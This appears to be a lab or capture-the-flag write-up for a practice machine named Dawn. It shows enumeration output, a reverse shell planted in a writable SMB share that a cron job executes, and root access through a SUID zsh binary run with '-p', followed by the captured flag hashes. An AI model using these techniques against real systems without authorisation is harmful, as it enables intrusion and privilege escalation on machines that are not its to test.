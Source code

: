 ## Dawn: Writeup

Nmap reveals four ports open:

```bash
PORT     STATE SERVICE     REASON  VERSION
80/tcp   open  http        syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 15
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, Speaks41ProtocolNew, LongColumnFlag, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsCompression, ConnectWithDatabase, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: NCBaDlv,u+s$T\Re&+F\
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: DAWN
```

Check out smb:
```bash
$ smbmap -H 192.168.122.11
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                    Permissions     Comment
        ----                    -----------     -------
        print$                  NO ACCESS       Printer Drivers
        ITDEPT                  READ, WRITE     PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT 
												AUTHORIZED TO USETHIS SYSTEM LEAVE IMMEADIATELY.
        IPC$                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```
ITDEPT is nonstandard. List its contents:
```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/dawn]
└─$ smbmap -H 192.168.122.11 -R 'ITDEPT'
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ITDEPT                                                  READ, WRITE
        .\ITDEPT\*
        dr--r--r--                0 Fri Mar  3 13:52:27 2023    .
        dr--r--r--                0 Wed Jul 22 13:19:41 2020    ..
```
There's nothing here, but I can write to it.
![1](screenshots/1.png)

Check out the web service on port 80. It's just the standard Apache Ubuntu default page. Fuzz it:
```bash
$ gobuster dir -u http://192.168.122.11/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/03 13:51:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 315] [--> http://192.168.122.11/logs/]
/server-status        (Status: 403) [Size: 302]
Progress: 4523 / 4615 (98.01%)===============================================================
2023/03/03 13:51:43 Finished
```

Checking logs, there are a list of files. All but one I can access: management.log

![2](screenshots/2.png)

Examinging it, I see that, periodically, there is a cronjob that is executing two files located in the ITDEPT directory. These files are called web-control and product-control.
```bash
2020/08/12 09:03:02 ESC[31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=938    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=937    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=936    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=940    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
<SNIP>
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=978    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=977    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control ESC[0m
```

Since I can write to ITDEPT, I make a reverse shell script and upload it. I set up a netcat listener, then catch the shell as dawn:
![3](screenshots/3.png)
![4](screenshots/4.png)
```bash
dawn@dawn:~$ whowhoami
dawn
dawn@dawn:~$ id
uid=1000(dawn) gid=1000(dawn) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn@dawn:~$ hostname
dawn
dawn@dawn:~$ hostname -I
192.168.122.11
dawn@dawn:~$ cat local.ttx
cat: local.ttx: No such file or directory
dawn@dawn:~$ cat local.txt
a61f316fdd5373ba6f337d62a3b94eb5
```
![5](screenshots/5.png)

Search for SUID binaries:
```bash
dawn@dawn:/tmp$ finfind / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/home/dawn/ITDEPT
```
`zsh` is listed. Execute it with the `-p` flag to become root:

```bash
dawn@dawn:/tmp$ zsh -p
dawn# cd /root     cd /root
cd /root
dawn# ls           ls
ls
flag.txt  proof.txt
dawn# cat proof.txtcat proof.txt
cat proof.txt
09f5fc4b56fbcb6b77a8ef7920afda20
dawn# whoami       whoami
whoami
root
dawn# id           id
id
uid=1000(dawn) gid=1000(dawn) euid=0(root) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn# hostname -I  hostname -I
hostname -I
192.168.122.11
```

![6](screenshots/6.png)

